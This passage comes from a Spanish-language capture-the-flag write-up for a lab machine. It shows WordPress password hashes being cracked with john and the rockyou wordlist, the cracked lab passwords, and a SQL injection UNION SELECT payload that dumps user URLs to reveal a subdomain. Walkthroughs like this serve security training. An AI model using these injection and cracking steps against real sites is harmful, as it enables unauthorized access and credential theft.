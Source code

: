 ```bash
❯ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (phpass [phpass ($P$ or $H$) 512/512 AVX512BW 16x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockyou          (wp_jeffrey)
soccer13         (wp_yura)
2g 0:00:03:00 37,86% (ETA: 16:07:08) 0.01109g/s 30859p/s 30885c/s 30885C/s micky2517..mickey1lew
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session aborted
```
Solo podemos romper dos hashes, Tenemos dos contraseñas, pero estas no nos van a servir para conectarnos por ssh, Enumeremos un poco mas, si vemos el contenido de la columna user_url nos dan un submonio

```bash
$~ union select 1,2,group_concat(user_url) from wordpress.wp_users
Coupon Code :1 With ID : 2 And With Expire Date Of : http://site.wekor.thm/wordpress,http://jeffrey.com,http://yura.com,http://eagle.com Is Valid!
```
Agreguemos el subdomionio site.wekor.thm al /etc/hosts, en esta subdominio al parecer se aloja el wordpress, accedamos al el.

![](/assets/img/wekor/word.png)
## Intrusion

Accedamos con la credenciales que obtuvimos de antes.